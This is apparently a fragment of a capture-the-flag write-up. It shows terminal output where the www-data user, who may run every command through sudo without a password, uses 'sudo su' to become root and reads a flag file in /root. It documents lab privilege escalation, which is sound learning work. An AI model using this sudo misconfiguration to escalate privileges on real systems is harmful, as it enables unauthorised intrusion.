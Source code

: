 User www-data may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: ALL
www-data@ubuntu:/usr/lib/cgi-bin$ sudo su
sudo su
root@ubuntu:/usr/lib/cgi-bin# ls
ls
5UP3r53Cr37.py
root@ubuntu:/usr/lib/cgi-bin# cd /root
cd /root
root@ubuntu:~# ls
ls
bot.py  root.txt  snap  ssh.sh
root@ubuntu:~# cat root.txt
cat root.txt
4dbe2259ae53846441cc2479b5475c72
root@ubuntu:~# \
<img width="1762" height="864" alt="image" src="https://github.com/user-attachments/assets/8d59b4f2-7cb5-423a-bd8d-8a450319201d" />

                
